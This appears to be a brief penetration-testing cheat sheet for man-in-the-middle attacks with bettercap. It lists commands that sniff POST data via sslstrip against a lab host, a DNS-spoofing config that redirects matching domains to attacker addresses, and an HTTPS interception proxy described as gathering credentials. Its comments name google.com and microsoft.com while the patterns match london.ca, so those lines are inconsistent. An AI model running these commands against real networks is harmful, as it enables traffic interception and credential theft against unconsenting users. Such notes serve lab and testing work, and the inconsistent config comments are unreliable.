 
Sniffs POSTS using bettercap and sslstrip
-----------------------------------------
# Does not really work well on modern TLS implementations (might be worth a try though....)
bettercap -T 10.10.10.5 --proxy -P POST

Intercept DNS traffic 
---------------------
# Create config file as below (name the file dns.conf)

# Empty lines or lines starting with # will be ignored.
# redirect *.google.com to the attacker ip address
10.10.10.170 .*london\.ca
# redirect *.microsoft.com to 10.10.10.10
10.10.10.6 .*london\.ca

# Run bettercap 
bettercap --dns ./dns.conf

MITM SSL/TLS certificate (user will get cert warning) to gather creds
---------------------------------------------------------------------
bettercap -T 10.10.10.5 -X --proxy-https

